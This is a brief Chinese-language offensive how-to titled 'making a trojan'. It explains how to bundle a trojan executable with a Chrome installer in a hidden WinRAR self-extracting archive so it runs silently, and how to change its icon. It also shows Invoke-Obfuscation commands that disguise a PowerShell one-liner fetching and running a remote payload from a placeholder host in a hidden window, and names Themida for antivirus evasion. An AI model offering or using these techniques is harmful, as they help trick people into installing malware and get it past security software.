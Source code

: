 # 制作木马

## 打包木马和Chrome打包
1.选中Chrome安装包和 木马.exe
2.右击添加到winrar
3.General - ✔️Create SFX archive
4.Advanced - SFX options
4.1 General - C:\Users\Public
4.2 Setup - Run after extraction: C:\Users\Public\yiye1010.exe
4.3 Setup - Run before extraction: C:\Users\Public\ChromeSetup.exe
4.4 Modes - Hide all
4.5 Update - Extract and update files
5. Restorator修改图标
```bash
WinRAR a -sfx -iicond:\app.ico setup.exe

winrar a -v360 1 -sfx  # 360k分卷
WinRAR a -sfxWinCon.SFX Gift.rar
```

## Invoke-Obfuscation 制作 powershell免杀
```bash
# https://github.com/danielbohannon/Invoke-Obfuscation
Import-Module .\Invoke-Obfuscation.psd1;Invoke-Obfuscation
Invoke-Obfuscation
set scriptblock 'powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x:80/b'))"'
token\all\1
# encoding <enter> 1 <enter> ascii混淆
# encoding\1
out PowerShellCodeASCII.ps1
```

# 免杀工具
1.Themida
